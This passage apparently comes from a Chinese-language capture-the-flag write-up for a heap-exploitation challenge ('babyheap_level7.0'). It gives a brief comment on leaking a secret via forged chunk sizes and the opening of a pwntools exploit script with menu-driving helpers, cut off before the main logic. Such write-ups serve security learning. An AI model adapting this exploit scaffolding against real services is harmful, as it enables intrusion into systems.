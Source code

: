 反正我用的方法比较简单粗暴，不过我也想过一次性泄漏完整的 secret，那就需要伪造 chunk size，提前做点布局……实际操作起来还挺麻烦的，也就没继续深入……

## Exploit

```python
#!/usr/bin/env python3

from pwn import (
    args,
    context,
    p32,
    process,
    raw_input,
    remote,
)

FILE = "/challenge/babyheap_level7.0"
HOST, PORT = "localhost", 1337

context(log_level="debug", binary=FILE, terminal="kitty")

elf = context.binary


def launch():
    global target
    if args.L:
        target = process(FILE)
    else:
        target = remote(HOST, PORT)


def malloc(idx, size):
    target.sendlineafter(b": ", b"malloc")
    target.sendlineafter(b"Index: ", str(idx).encode("ascii"))
    target.sendlineafter(b"Size: ", str(size).encode("ascii"))


def free(idx):
    target.sendlineafter(b": ", b"free")
    target.sendlineafter(b"Index: ", str(idx).encode("ascii"))


def puts(idx):
    target.sendlineafter(b": ", b"puts")
    target.sendlineafter(b"Index: ", str(idx).encode("ascii"))


def scanf(idx, data):
    target.sendlineafter(b": ", b"scanf")
    target.sendlineafter(b"Index: ", str(idx).encode("ascii"))
    target.sendline(data)


def send_flag(secret):
    target.sendlineafter(b": ", b"send_flag")
    target.sendlineafter(b"Secret: ", str(secret).encode("ascii"))


def quit():
    target.sendlineafter(b": ", b"quit")


def main():
```